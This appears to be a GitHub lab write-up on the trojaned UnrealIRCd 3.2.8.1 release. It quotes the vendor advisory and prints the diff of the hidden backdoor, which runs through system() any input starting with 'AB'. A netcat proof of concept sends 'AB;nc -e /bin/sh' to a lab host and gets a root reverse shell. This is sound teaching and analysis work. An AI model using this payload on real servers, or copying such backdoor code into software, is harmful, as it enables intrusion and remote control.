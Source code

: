 # UnrealIRCd 3.2.8.1 Backdoor Command Execution

## Description :

UnrealIRCd 3.2.8.1, as distributed on certain mirror sites from November 2009 through June 2010, contains an externally introduced modification (Trojan Horse) in the `DEBUG3_DOLOG_SYSTEM` macro, which allows remote attackers to execute arbitrary commands.

Reported by the vendor. (https://www.securityfocus.com/bid/40820)

Metasploit module is also available for this vulnerability. It's written by:

* hdm <x@hdm.io>

## Digging the hole

The official security advisory (http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt) for getting detailed information is not available at the moment, throws **ERR_CONNECTION_TIMED_OUT**

To get it anyway, we can utilize the **Wayback Machine**

Read the local copy of advisory : [unrealsecadvisory.20100612.txt](unrealsecadvisory.20100612.txt)

```
This is very embarrassing...

We found out that the Unreal3.2.8.1.tar.gz file on our mirrors has been
replaced quite a while ago with a version with a backdoor (trojan) in it.
This backdoor allows a person to execute ANY command with the privileges of
the user running the ircd. The backdoor can be executed regardless of any user
restrictions (so even if you have passworded server or hub that doesn't allow
any users in).

It appears the replacement of the .tar.gz occurred in November 2009 (at least on some mirrors). It seems nobody noticed it until now.
```

Let's get our hands on it. Again, the advisory provides the md5sum we should look for.

```
One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by running 'md5sum Unreal3.2.8.1.tar.gz' on it.

Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
```

In sources, you can find the clean and backdoored versions of Unreal3.2.8.1, as said we can verify md5sums :

```
$ md5sum Unreal3.2.8.1*
752e46f2d873c1679fa99de3f52a274d  Unreal3.2.8.1_backdoor.tar.gz
7b741e94e867c0a7370553fd01506c66  Unreal3.2.8.1_clean.tar.gz
```

Yes, we've the backdoor code. We can now check the code diff.

```
$ diff -urN Unreal3.2.8.1_clean Unreal3.2.8.1_backdoor
```

```
diff -urN Unreal3.2.8.1_clean/include/struct.h Unreal3.2.8.1_backdoor/include/struct.h
--- Unreal3.2.8.1_clean/include/struct.h	2009-04-13 13:03:57.000000000 +0200
+++ Unreal3.2.8.1_backdoor/include/struct.h	2009-04-13 13:03:00.000000000 +0200
@@ -430,6 +430,7 @@
 #endif
 
 /* Fake lag exception */
+
 #define IsNoFakeLag(x)      ((x)->flags & FLAGS_NOFAKELAG)
 #define SetNoFakeLag(x)     ((x)->flags |= FLAGS_NOFAKELAG)
 #define ClearNoFakeLag(x)   ((x)->flags &= ~FLAGS_NOFAKELAG)
@@ -448,6 +449,7 @@
 #else
 #define IsNotSpoof(x)           (1)
 #endif
+#define	DEBUGMODE3	    ((x)->flags & FLAGS_NOFAKELAG)
 
 #define GetHost(x)			(IsHidden(x) ? (x)->user->virthost : (x)->user->realhost)
 #define GetIP(x)			((x->user && x->user->ip_str) ? x->user->ip_str : (MyConnect(x) ? Inet_ia2p(&x->ip) : NULL))
@@ -513,6 +515,10 @@
 #else
 #define CHECKPROTO(x,y) (checkprotoflags(x, y, __FILE__, __LINE__))
 #endif
+#ifdef DEBUGMODE3
+#define DEBUGMODE3_INFO	"AB"
+#define	DEBUG3_LOG(x) DEBUG3_DOLOG_SYSTEM (x)
+#endif
 
 #define DontSendQuit(x)		(CHECKPROTO(x, PROTO_NOQUIT))
 #define IsToken(x)		(CHECKPROTO(x, PROTO_TOKEN))
@@ -1373,6 +1379,7 @@
 #define INCLUDE_REMOTE     0x2
 #define INCLUDE_DLQUEUED   0x4
 #define INCLUDE_USED       0x8
+#define DEBUG3_DOLOG_SYSTEM(x) system(x)
 	
 struct _configitem_include {
 	ConfigItem *prev, *next;
diff -urN Unreal3.2.8.1_clean/src/s_bsd.c Unreal3.2.8.1_backdoor/src/s_bsd.c
--- Unreal3.2.8.1_clean/src/s_bsd.c	2009-03-01 19:37:58.000000000 +0100
+++ Unreal3.2.8.1_backdoor/src/s_bsd.c	2006-06-16 20:29:00.000000000 +0200
@@ -1431,6 +1431,10 @@
 		    return 1;
 		if (length <= 0)
 			return length;
+#ifdef DEBUGMODE3
+	if (!memcmp(readbuf, DEBUGMODE3_INFO, 2))
+	    DEBUG3_LOG(readbuf);
+#endif
 		for (h = Hooks[HOOKTYPE_RAWPACKET_IN]; h; h = h->next)
 		{
 			int v = (*(h->func.intfunc))(cptr, readbuf, length);

```

### Attack Anatomy

```
if (!memcmp(readbuf, DEBUGMODE3_INFO, 2)) /* if first two char from the buffer is "AB", it gets 0, and !0 = 1*/
```

The code is small, no explicit sockets are created, backdoor works over default socket/port (IRC) and uses `system()` to execute commands, `system()` executes a command specified in command by calling `/bin/sh -c` command, and returns after the command has been completed **if the passed data begins with special character sequence i.e. "AB"**.

`#ifdef` is just for increasing compatibility.

> In computer programming, conditional compilation is compilation implementing methods which allow the compiler to produce differences in the executable program produced and controlled by parameters that are provided during compilation. This technique is commonly used when these differences are needed to run the software on different platforms, or with different versions of required libraries or hardware. (https://en.wikipedia.org/wiki/Conditional_compilation)

> IRC was originally a plain text protocol (although later extended), which on request was assigned port 194/TCP by IANA. However, the de facto standard has always been to run IRC on 6667/TCP and nearby port numbers (for example TCP ports 6660–6669, 7000) to avoid having to run the IRCd software with root privileges. (https://en.wikipedia.org/wiki/Internet_Relay_Chat)


## Proof of Concept

#### Triggering the backdoor :

```
nc -vnlp 4444
nc TARGET_IP IRC_PORT
AB;nc -e "command" BOX_ADDR 4444
```

#### Get a shell :

```
root@w0ot:~$ nc 192.168.233.155 6667
:irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;nc -e /bin/sh 192.168.233.153 4444
^C
root@w0ot:~$ 
=======================================================================================================
root@w0ot:~$ nc -vnlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 192.168.233.155 41223 received!
id -un
root
^C
root@w0ot:~$ 
```
## Our Own Exploit Sandwitch






## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075
- https://www.exploit-db.com/exploits/13853
- https://linux.die.net/man/3/system
- https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor